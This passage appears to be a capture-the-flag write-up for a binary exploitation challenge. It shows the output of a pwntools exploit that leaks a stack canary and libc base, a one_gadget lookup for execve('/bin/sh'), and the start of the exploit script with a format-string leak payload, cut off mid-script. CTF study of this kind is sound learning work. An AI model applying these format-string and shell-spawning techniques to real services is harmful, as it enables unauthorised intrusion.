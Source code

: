 However, when exploiting it, I always got a segmentation fault on the server:

```
$ python3 exploit.py 
[+] Opening connection to 159.65.81.48 on port 30455: Done
[*] Stack Canary: 0xa9115b9464d11b00
[*] Libc_Start: 0x7fa6a066db97
[*] Libc Base address: 0x7fa6a0643a0d
[*] Switching to interactive mode
Red

You have less than 20 space rocks! Are you sure you want to buy it?
$ id
/home/ctf/run_challenge.sh: line 2:    41 Segmentation fault      ./what_does_the_f_say
[*] Got EOF while reading in interactive
```

We can replace the ROP chain with a `execve("/bin/sh")` argument:

```
$ one_gadget libc6_2.27-3ubuntu1.2_amd64.so 
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
```

Afterwards, the exploit works:

<figure><img src="../../.gitbook/assets/image (443).png" alt=""><figcaption></figcaption></figure>

Final script:

```python
from pwn import *

p = remote('159.65.81.48', 30455)
#p = process('./what_does_the_f_say')
#gdb.attach(p)
def canary():
	p.recv()
	p.sendline(b"1")
	p.recv()
	p.sendline(b"2")
	p.recv()
	p.sendline(b"%23$p")
	p.recvline()
	p.recvline()
	can = p.recvline().strip()
	can = int(can, 16)
	return can

def libc():
	p.recv()
	p.sendline(b"1")
	p.recv()
	p.sendline(b"2")
```